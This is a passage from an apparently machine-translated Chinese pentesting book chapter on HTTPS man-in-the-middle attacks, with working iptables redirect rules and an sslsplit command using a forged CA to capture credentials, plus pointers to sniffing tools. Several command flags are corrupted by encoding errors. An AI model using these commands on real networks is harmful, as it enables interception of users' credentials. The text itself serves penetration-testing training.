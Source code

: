 ```

您可以显示`sslsniff.log`文件的内容并查看凭证（如以下屏幕截图所示）。这种攻击比 SSLstrip 成功的可能性更大，因为用户仍然会在浏览器的地址栏中看到 HTTPS 会话；而且，根据受信任的 CA 配置，他们可能没有什么警告，说明事情不正常。如果您使用的是真正的伪造证书（请参阅本教程了解可能发生的情况：[https://blog.leetsys.com/2012/01/18/insider-rogue-certification-authority-attack/](https://blog.leetsys.com/2012/01/18/insider-rogue-certification-authority-attack/) ），它甚至看起来是有效的。

![](https://www.packtpub.com/img/9781784395070/img/B03918_08_14.png)

查看 SSLsniff 的凭据刮取

#### SSLsplit

SSLsplit 遵循类似的方法；首先，您需要确保启用了 IP 转发。通常使用更多的`iptables`条目来拉入更多的端口，提供 NAT，并使用典型的重新映射端口`80`、`8080`、`443`和`8443`：

```
iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp â��dport 80 -j REDIRECT â��to-ports 8080
iptables -t nat -A PREROUTING -p tcp â��dport 443 -j REDIRECT â��to-ports 8443
iptables -I INPUT -p tcp -m state â��state NEW -m tcp â��dport 80 -j ACCEPT
iptables -I INPUT -p tcp -m state â��state NEW -m tcp â��dport 443 -j ACCEPT
iptables -I INPUT -p tcp -m state â��state NEW -m tcp â��dport 8443 -j ACCEPT
iptables -I INPUT -p tcp -m state â��state NEW -m tcp â��dport 8080 -j ACCEPT
service iptables save 
```

现在，我们可以使用单个命令启动 SSLsplit。请注意，生成伪造证书没有劳动密集型开销；这非常有用，因为我们可以部署它来收集多个站点上的信息，而不必为每个站点生成假证书：

```
sslsplit -l connections.log -S ~/scrapes/ -k ~/sslsplit-keys/ca.key -c ~/sslsplit-keys/ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080 
```

与 SSLsniff 一样，输出指向一个日志文件，告诉您可以在`~/scrapes`文件夹中找到日志。

#### 其他 MITM 动机

我们可以以 Kali Linux 为基础实现大量的 MITM 攻击方法。如果您正在寻找仅限 HTTP 的 MITM（一些内部站点可能仍然使用未受保护的 HTTP），或者如果您正在寻找非常具体的内容，请查看**漂移网**（[http://www.ex-parrot.com/~chris/driftnet/](http://www.ex-parrot.com/~chris/driftnet/)和**Urlsnarf**。其中每一个都使用相同的 IP 转发和 ARPSopof 配置，但提供了一些不同于 SSLstrip 的功能。漂移网专注于从通过 Kali 虚拟机的 HTTP 流中提取图像和多媒体，这有助于拦截企业培训。Urlsnarf 只需拉取主机访问的所有网站，这可以帮助您映射显式访问且可能不会出现在 DNS recon 任务中的内部网站。

## 总结

* * *

虽然一些攻击获得了大量的新闻和荣誉，但推动社会对网络依赖的信任关系至关重要。对这些信任机制的攻击非常令人担忧，因为它们通常会让用户和应用程序开发人员不知道这种危害。本书中涵盖的以及 OWASP 前 10 名中所代表的许多其他威胁都是 web 应用程序所有者可以控制或有权补救的。然而，加密或基于 PKI 的攻击涉及其领域之外的其他方面，例如证书颁发机构的完整性、网络对 ARP 注入的容忍度以及应用程序自身域之外的局域网的完整性。在诸如 Heartbleed 和 POODLE 等攻击的情况下，即使是提供这些服务所依赖的软件也可能造成最终的危害：敏感数据和凭证的泄漏。

在本章中，我们简要介绍了如何扫描运行应用程序的软件中的已知漏洞。我们还看到了 SSLscan 和 SSLyze 在检测 PKI 细节方面的不同，以及我们如何使用它们和 Nmap 来识别弱点。我们还讨论了两种更普遍的感兴趣的攻击，如何利用 Heartbleed，以及如何以多种方式处理 MITM 攻击。

在[第 9 章](Mastering%20Kali%20Linux%20for%20Web%20Penetration%20Testing_split_000.html#)*、压力测试认证和会话管理*中，我们假设加密状态良好，更容易的途径是在应用程序端破坏认证。这些身份验证和会话管理攻击更侧重于特定应用程序配置和维护上的潜在缺陷，而实际上，这些缺陷往往更容易受到攻击。这些攻击还有另外一个好处，即使用合法用户将拥有的相同安全路径进入环境�� 对目标系统的持续测试和深入分析至关重要。[第 9 章](Mastering%20Kali%20Linux%20for%20Web%20Penetration%20Testing_split_000.html#)，*压力测试认证和会话管理，*也将标志着我们已经投资的一些工具集的回归，所以喝一杯，我们开始工作吧！**